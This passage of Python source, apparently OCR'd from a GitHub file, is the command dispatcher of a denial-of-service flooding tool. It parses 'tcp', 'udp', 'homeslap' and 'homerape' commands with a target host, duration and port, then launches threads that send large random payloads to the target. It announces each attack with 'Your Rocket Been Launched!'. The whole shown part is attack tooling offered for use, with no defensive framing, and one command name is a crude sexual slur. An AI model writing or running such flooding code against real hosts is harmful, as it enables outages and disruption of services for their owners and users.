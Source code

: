 						sinput, host, timer, port = sin.split(" ")
						socket.gethostbyname(host)
						payload = b"\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58"
						threading.Thread(target=stdsender, args=(host, port, timer, payload)).start()
						print("\033[31mYour Rocket Been Launched!")
			except ValueError: 
				main()
			except socket.gaierror:
				main()
		elif sinput == "tcp":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "homeslap":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 30000
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "udp":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "homerape":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()